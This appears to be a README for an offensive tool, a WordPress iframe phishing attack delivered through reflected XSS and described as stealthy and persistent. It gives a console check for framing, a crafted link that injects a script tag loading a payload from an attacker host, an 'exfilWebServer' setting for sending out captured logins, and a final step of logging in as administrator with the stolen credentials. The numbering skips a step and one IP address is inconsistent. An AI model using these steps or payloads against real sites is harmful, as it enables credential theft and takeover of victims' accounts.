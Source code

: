 # [Phish] Iframe Login Page

* **NOTES**:
  * stealthy
  * persistent
    * exploit stays active:
      * upon failed login
      * upon logout (i.e. login ➔ logout)
    * exploit will remain active until victim's web browsers cache is cleared
  * avoids excessive log spam
    * exploit exfiltrates credentials only on submit form event (logs both successful and failed authentication attempts)

## Test Environment

### Web Browsers (20240224)

* [x] Mozilla Firefox Version 123.0 (64-bit)
* [x] Google Chrome Version 122.0.6261.70 (64-bit)
* [x] Microsoft Edge Version 122.0.2365.52 (64-bit)

## Exploitation Steps

1. [test target login page] navigate to target application in web browser

    http://192.168.5.10

2. [test target login page] confirm target login is iframe-able

    *(open developer console and execute following code)*

    ```
    const url = "http://192.168.5.10/wp-login.php";
    const req = new XMLHttpRequest();
    req.open("GET", url, false);
    req.send(null);
    console.log("Endpoint: " + url + "\nX-Frame-Options (response header): " + req.getResponseHeader("X-Frame-Options"));
    ```

    * **NOTE**: default install value: `SAMEORGIN` (vulnerable)

3. [setup exploit] change payload variable values (`phishLoginWP.js`)

    `exfilWebServer` - web server URL for credential exfiltration

    `wpRoot` - path to WordPress installation on the target system (e.g. `"/path"`)

4. [setup exploit] setup web server (to serve the payload)

5. [social engineering attack] victim user clicks link

    ```
    http://192.168.5.10/test/rxss.php?q=<script src=http://192.168.5.15/phishLoginWP.js></script>
    ```

    * **NOTES**:
      * `192.168.5.10` - target WordPress site
      * `192.168.5.15` - web server hosting payload

6. [social engineering attack] victim user authenticates

    *(attacker obtains credentials)*

8. [post exploit] attacker logs into target WordPress site using obtained credentials

    http://192.168.5.19/administrator/

## Screenshots

* **NOTE**: the screenshot covers steps 3 to 6 from the "Exploitation Steps" chapter

<p align="center">
  <kbd>
    <picture>
      <source media="" srcset="https://github.com/lighthouseitsecurity/weaponizedXSS/raw/main/CMS/WordPress/IframeLogin/screenshots/WordPress_-_iframe_login_-_1-1.png">
      <img src="https://github.com/lighthouseitsecurity/weaponizedXSS/raw/main/CMS/WordPress/IframeLogin/screenshots/WordPress_-_iframe_login_-_1-1.png">
    </picture>
  </kbd>
</p>
